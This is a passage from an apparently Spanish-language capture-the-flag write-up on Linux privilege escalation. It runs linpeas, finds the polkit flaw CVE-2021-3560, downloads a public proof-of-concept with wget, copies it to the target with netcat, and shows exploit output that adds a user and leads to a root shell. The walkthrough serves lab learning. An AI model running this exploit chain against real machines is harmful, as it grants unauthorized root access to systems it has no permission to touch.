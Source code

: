 ```plaintext
❯ chmod +x linpeas.sh
❯ ./linpeas.sh

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560
```

`Linpeas` nos reporta que la máquina tiene una vulnerabilidad que puede ser explotada con el CVE-2021-3560, más información sobre la vulnerabilidad en el siguiente [post](https://www.hackplayers.com/2021/06/escalado-de-privilegios-mediante-polkit.html). Vamos a utilizar el exploit del siguiente repositorio de [github](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation).

Máquina víctima 

```plaintext
❯ nc -nlvp 4444 > CVE-2021-3560.sh
```

Nuestra máquina

```plaintext
❯ wget https://raw.githubusercontent.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/main/poc.sh
❯ nc 10.10.11.143 4444 < poc.sh
❯ CTRL + C
```

Vamos a asignarle los permisos necesarios y vamos a ejecutarlo (es posible que haga falta ejecutarlo varias veces). 

```plaintext
❯ chmod +x CVE-2021-3560.sh
❯ ./CVE-2021-3560.sh -u=xdann1 -p=xdann1
[!] Username set as : xdann1
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username xdann1...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username xdann1  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - xdann1
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
```
